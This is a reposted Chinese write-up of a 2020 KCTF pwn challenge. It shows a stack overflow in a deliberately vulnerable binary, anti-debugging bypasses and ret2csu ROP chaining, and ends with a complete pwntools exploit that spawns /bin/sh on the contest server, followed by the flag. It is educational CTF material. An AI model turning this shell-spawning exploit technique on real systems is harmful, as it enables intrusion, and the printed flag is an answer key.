<!--yml
category: 未分类
date: 2022-04-26 14:48:14
-->

# ctf xor题_2020 KCTF秋季赛 | 第九题设计及解题思路_当下的幸福的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_34318945/article/details/112198271](https://blog.csdn.net/weixin_34318945/article/details/112198271)



2020 KCTF 秋季赛的第九题《命悬一线》，也是本次CTF的倒数第二道赛题，吸引了1000多人围观，最终有

**10**

支战队对本题发起攻击并获得成功。 第二支夺旗的战队 

**w0ooo **

在本道题比赛中发挥异常亮眼，似乎错过前8道赛题，不过他们并没有放弃，依然以本题第二的成绩，冲进近300支战队中的第18名，恭喜！



此外 P&R、INVCODE 两支战队也在本题比赛中崭露头角！

接下来仅剩最后一道赛题，请大家全力以赴，不要放弃！加油！

 **一. 题目简介**

本以为重置机器人三大法则，就可以逆转形势，但你们与Norns的较量才刚刚开始。

Norns强大的运算能力和速度果然名不虚传，你和肖恩两人合力对其发起进攻，也只是艰难地抓住一线机会，从Norn那里夺回短暂的主动权。

仿生人们还未恢复正常多久，在这场激烈的拉锯战中，攻防局势再度逆转，系统权限又被Norns收回。

仿生人大军压境，随着机械运转的声音，各个出入口也被紧紧关闭，你们所在的这一层被Norns彻底封锁。

你突然感到脊背一凉，转头更是撞上了无人机闪着红光的“眼睛”正对你们虎视眈眈。

潜入Norns老巢的你们此刻正如瓮中之鳖。就算侥幸逃脱仿生人的围剿，如果这些无人机同时对你们进行扫射，你们也会成为活靶子，无处可逃。

“面对困难最好的办法就是微笑着面对他，奥利给！！”肖恩突然一句不合时宜的话让你和希莉娅哭笑不得。

你们三人相视一笑，坐以待毙可不是你们的风格，是时候该打响反攻战的号角了！！

可眼下敌方人多势众，跟他们硬刚的确不是明智之举。你们三人决定先离开这个是非之地，再去找位于最高研究所顶楼的Norns本体。

现在调出大楼布局图，争分夺秒找到最快速的逃离路线，逃出生天吧！ 

* 上下滑动查看

 **二. 出题团队简介**   **三.设计思路**

设计思路由

** 黄瓜香蕉 **

提供

一道栈溢出



程序开启了canary和nx存在绕过canary。 发现了程序使用了类。 在类函数中可以存在虚表，可以通过修改虚表达到劫持程序流程。



可以通过修改rax来劫持程序流程。 可以看到程序调用函数：



使用了dlope 和dlsym 通过dlopen打开libc，然后使用dlsym动态获取获取函数地址，  字符串都已经异或加密了，恶心成分+1。



程序检测了/proc/%d/status 文件中的TracerPid来判断是否被调试。



程序增加了反调试，检测了ptrace，在docker中patch会返回-1，在正常环境是运行不了的，找到了patch，使用的是汇编syscall，当然静态是看不到的，在运行时候还原的，恶心成分+1，

 

patch 程序后使用gdb调试单步跟踪，可以看到在析构中有个输出是使用syscall调用 write输出的。



构造rop获得shell。

 **四. 解题思路**

解题思路由作者** number_Z **提供

一、序 命悬一线？PWN！


二、题目分析

#### 1、看到题目后，先上checksec，可以发现题目为64位程序，未开PIE，说明代码段、数据段地址固定。

```
root@ubuntu:/mnt/hgfs/ShareDir/ctf/pwn1# checksec pwn1[*] '/mnt/hgfs/ShareDir/ctf/pwn1/pwn1'    Arch:     amd64-64-little    RELRO:    Partial RELRO    Stack:    Canary found    NX:       NX enabled    PIE:      No PIE (0x400000)
```

#### 

#### 2、静态分析下程序，漏洞点很明显，读入0x200大小，而只memset 0x60的空间，存在栈溢出漏洞。

 

#### 3、接下来动态调试下，可以发现一些反调试。

```
# (cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h) 查看系统调用号sub_400CA8()有ptrace反调试，patch处理掉。init_array中调用到sub_400E08()时，可以看到检查了sub_400E82()的结果，而sub_400E82()中原逻辑为返回TracerPid。如果检查不通过的话，系统调用sub_4017CC()方法将被更改...。解决方法有很多，我这边是在sub_400E82()中patch返回值为0，绕过检查。
```

 

三、利用

#### 1、总结一下分析结果，64位，暂时没泄露出地址，存在栈溢出漏洞可输入0x200长度字符，NO-PIE的情况。敏感的同学已经感觉到通用gadget的召唤了吧，原理这里不再赘述，有需要的同学请移步：

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/medium-rop-zh/#ret2csu

#### 2、ROPgadget找一下：

```
# 0x000000000040185b最长最牛，我们去他附近找找。root@ubuntu:/mnt/hgfs/ShareDir/ctf/pwn1# ROPgadget --binary pwn1 --only "pop|ret"Gadgets information============================================================0x000000000040185c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret0x000000000040185e : pop r13 ; pop r14 ; pop r15 ; ret0x0000000000401860 : pop r14 ; pop r15 ; ret0x0000000000401862 : pop r15 ; ret0x000000000040185b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret0x000000000040185f : pop rbp ; pop r14 ; pop r15 ; ret0x0000000000400a20 : pop rbp ; ret0x0000000000400b60 : pop rbx ; pop rbp ; ret0x0000000000401863 : pop rdi ; ret0x0000000000401861 : pop rsi ; pop r15 ; ret0x000000000040185d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret0x000000000040028c : ret0x0000000000401757 : ret 0x1be0x0000000000400c32 : ret 0x458b0x0000000000400f07 : ret 0x858b0x0000000000400c55 : ret 0x8b480x0000000000400da5 : ret 0xbe
```

#### 3、果然有货啊...，0x401840、0x40185A处发现通用gadget，记录下来便于后续利用。



#### 4、栈溢出要解决的第一个问题是canary，那么如何解决呢？

经过测试，我们运行输入一段长度溢出的数据，动态调试断点执行到0x40169E，可以发现另一个利用点。 总结一下就是，程序会把栈上一个地址的值保存到rax寄存器中，通过一番简单的赋值操作可以call一个指针指向的地址。而保存在栈上这个值是我们可以溢出覆盖到的，那么就意味着我们可以通过控制该值来调用任意一个指针指向的地址。如果能找到一个合适的指针就好了，该指针指向的任意地址也可以由我们控制，那就简单了。



#### 5、寻找梦想指针

仔细观察同学们可以发现，0x6020C0完全满足我们的要求，该指针地址保存了我们所有的输入，而这些输入的数据我们都可以控制。



#### 6、配合上面通用gadget的方法，控制syscall(0x4017cc)，构造一个execve("/bin/sh", NULL, NULL)。

```
# call execve 系统调用号为59 ，控制后两个参数为0root@ubuntu:/mnt/hgfs/ShareDir/ctf/pwn1# cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve#define __NR_execve 59
```

#### 7、系统调用syscall(0x4017cc)处寄存器赋值小坑。



```
# payload构造如下，常规的通用gadget利用方式不细说了，点上文传送阵学习，这里提一个点，需要一点小窍门绕过去def csu(rbx, rbp, r12, r13, r14, r15, last):    # pop rbx,rbp,r12,r13,r14,r15    # rbx should be 0,    # rbp should be 1,enable not to jump    # r12 should be the function we want to call    # rdi=edi=r15d    # rsi=r14    # rdx=r13    payload = ''    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)    payload += p64(csu_front_addr)    payload += '/bin/sh\x00' + 'A' * 0x28    payload += p64(last)    return payload # 就是execve需要三个参数，而我们此时只能控制两个参数(常规通用gadget方式只能控制rdi、rsi、rdx三个寄存器，无法控制rcx)# 调用号 rdi=edi=r15d=59 call execve# 第一个参数rsi = r14 = 0x602120 (保存了/bin/sh)  # 第二个参数rdx = r13 = 0# !!我们这里需要控制第三个参数 rcx = 0 才能满足execve("/bin/sh", NULL, NULL)的条件# 解决办法就是在内存中找到一个地址是# xor rcx, rcx; ret; 构造变形一下通用gadget的利用方式 在调用execve前 使rcx为0syscall = 0x4017CCpayload = p64(syscall) + p64(csu_end_addr) + 'A' * 8payload += p64(xor_rcx_ret_addr) + p64(csu_end_addr)payload += csu(0, 1, 0x6020C0, 0, 0x602120, 59, main_addr)payload += 'A' * 8payload += p64(0x6020C8 - 0x18)
```

四、完整EXP

```
#coding:utf8#!python#!/usr/bin/env python from pwn import * context.terminal = ['gnome-terminal', '-x', 'sh', '-c']context.log_level = "debug" elfpath = '/mnt/hgfs/ShareDir/ctf/pwn1/pwn1'elf = ELF(elfpath)if len(sys.argv) == 0:    p = process(elfpath, env={'LD_PRELOAD':'/lib/x86_64-linux-gnu/libc.so.6'}, timeout=2)else:    p = remote('121.36.145.157', 9999) csu_front_addr = 0x401840csu_end_addr = 0x40185Amain_addr = 0x400AB6xor_rcx_ret_addr = 0x4017E3 # xor rcx, rcx; ret; def csu(rbx, rbp, r12, r13, r14, r15, last):    # pop rbx,rbp,r12,r13,r14,r15    # rbx should be 0,    # rbp should be 1,enable not to jump    # r12 should be the function we want to call    # rdi=edi=r15d    # rsi=r14    # rdx=r13     payload = ''    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)    payload += p64(csu_front_addr)    payload += '/bin/sh\x00' + 'A' * 0x28    payload += p64(last)    return payload syscall = 0x4017CCpayload = p64(syscall) + p64(csu_end_addr) + 'A' * 8payload += p64(xor_rcx_ret_addr) + p64(csu_end_addr)payload += csu(0, 1, 0x6020C0, 0, 0x602120, 59, main_addr) # call __NR_execve 59 (cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve)payload += 'A' * 8payload += p64(0x6020C8 - 0x18) # getshellp.send(payload)p.interactive()
```

flag：{b5f4e9d4325d16d55783f7ea1b1ed956}

> *看完解析你会了吗？你还有不一样的解题思路吗？* *实践出真知～速速动手自己做一遍，才算把知识装进脑子～* *欢迎大家分享解题思路哦～*


现在第十题《终焉之战》正在火热进行中！

有你比赛更精彩！

越早提交答案，得分越高哦！

立即扫码加入战斗！


华为全面屏智能电视、Xbox One X、JBL 无线蓝牙耳机等你来拿哦！

**赛题回顾**


****2020 KCTF秋季赛 | 第一题点评及解题思路****

出题战队：七星战队


****2020 KCTF秋季赛 | 第二题设计及解题思路****

出题战队：中娅之戒


******2020 KCTF秋季赛 | 第三题点评及解题思路******

 **出题战队：2019


******2020 KCTF秋季赛 | 第四题点评及解题思路******

出题战队：大灰狼爱喜羊羊


**2020 KCTF秋季赛 | 第五题设计及解题思路**

出题战队：金左手


**2020 KCTF秋季赛 | 第六题设计及解题思路**

出题团队：T.O.


**2020 KCTF秋季赛 | 第七题设计及解题思路**

出题团队：HU1战队



**2020 KCTF秋季赛 | 第八题设计及解题思路**

出题团队：BXS-iyzyi

 

**你的好友秀秀子拍了拍你**

**并请你点击阅读原文，参与最新一题的挑战！****